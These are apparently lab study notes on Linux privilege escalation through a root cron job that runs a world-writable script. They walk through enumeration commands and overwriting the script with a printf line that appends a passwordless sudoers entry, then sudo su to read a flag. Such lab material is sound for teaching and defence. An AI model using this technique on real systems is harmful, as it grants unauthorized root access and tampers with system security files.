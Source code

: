Cron Jobs
- Linux implements task scheduling through a utility called Cron.
- Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specific schedule.
- An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job. Cron can be used to automate or repeat a wide variety of functions on a system, from daily backups to system upgrades and patches.
- The crontab file is a configuration file that is used by the Cron utility to store and track Cron jobs that have been created by the active user.

Exploiting Misconfigured Cron Jobs
- Cron jobs can also be run as any user on the system, this is a very important factor to keep in mind, as we will be targeting Cron jobs that have been configured to be run as the "root" user.
- This is primarily because, any script or command that is run by a Cron job will run as the root user and will consequently provide us with root access.
- In order to elevate our privileges, we will need to find and identify Cron jobs scheduled by the root user or the files being processed by the Cron job.

Practical Demonstration
- Since the demonstration is for Privilege escalation, we are in an assumed breach scenario with non-elevated privileges, and have access to a Bash shell, with the user student, who does not have elevated privileges.
- `whoami`
- `groups student`
- `cat /etc/passwd`
- `crontab -l`
- `ls -al`
- Upon listing the contents of the current directory, we are able to observe that we have a file named 'message', with the owner set as the root user.
- `pwd`
- `cat message`
- The above command fails because the user permissions set for the file are `-rw-------`, the read and write permissions for the file lie only with the root user.
- Since we know the path to the file being considered, we can try to find any files that specify the file's path.
- `cd /`
- `grep -rnw /usr -e "home/student/message"`
- By executing the previous command, we get a resulting path for a file that specifies the file being considered. The path to the file where the 'message' file's path is specified is `/usr/local/share/copy.sh`.
- The occurrence of the 'message' file's path in the 'copy.sh' file helps us figure out that during the execution of the 'copy.sh' file, the 'message' file gets transferred to the `/tmp` directory.
- `ls -al /tmp`
- `cat /tmp/message`
- We were now able to cat the contents of the message file, which just nudged us for not being a root user.
- Next, we want to check the permissions for the 'copy.sh' file.
- `ls -al /usr/local/share/copy.sh`
- The 'copy.sh' file has its permissions set as `-rwxrwxrwx`, which means that anybody can perform any file operations on this file.
- Since we know that this file is getting executed by a Cron job with root privileges, we can try to utilize it to perform privilege escalation.
- In the case of the lab environment provided by INE, the Cron job is set to execute every minute.
- `cat /usr/local/share/copy.sh`
- Contents of the file:
``` bash
#!/bin/bash
cp /home/student/message /tmp/message
chmod 644 /tmp/message
```
- `vim`
- `nano`
- No text editors were found to be installed on the system, so we are going to use the `printf` command instead.
- `printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh\n`
- `cat /usr/local/share/copy.sh`
- `sudo -l`
- The `sudo -l` command can be used to list the sudo execution permissions for the current user, so we used it to check what commands can be run by our user, with and without using a password, to execute something with sudo privileges.
- `sudo su`
- `whoami`
- `cd /root`
- `ls`
- `cat flag`
- `crontab -l` will now provide us with a list of the active Cron jobs for the root user, including the one we just utilized to perform privilege escalation on the target system.

Points to keep in mind while performing privilege escalation with misconfigured Cron jobs
- The first step to perform privilege escalation using misconfigured Cron jobs is to identify the files or scripts that are being used by a Cron job.
- Since, we really cannot be sure about the schedule of execution for the tasks specified in a Cron job, once we've identified the shell script being executed by the Cron job, we can identify if the shell script can be modified by an un-privileged user.
- If the shell script can be modified by a user we have access to, we can modify it and append commands that when run with root privileges, would help us add our current users to sudoers file, enabling us to execute commands with elevated privileges without a password.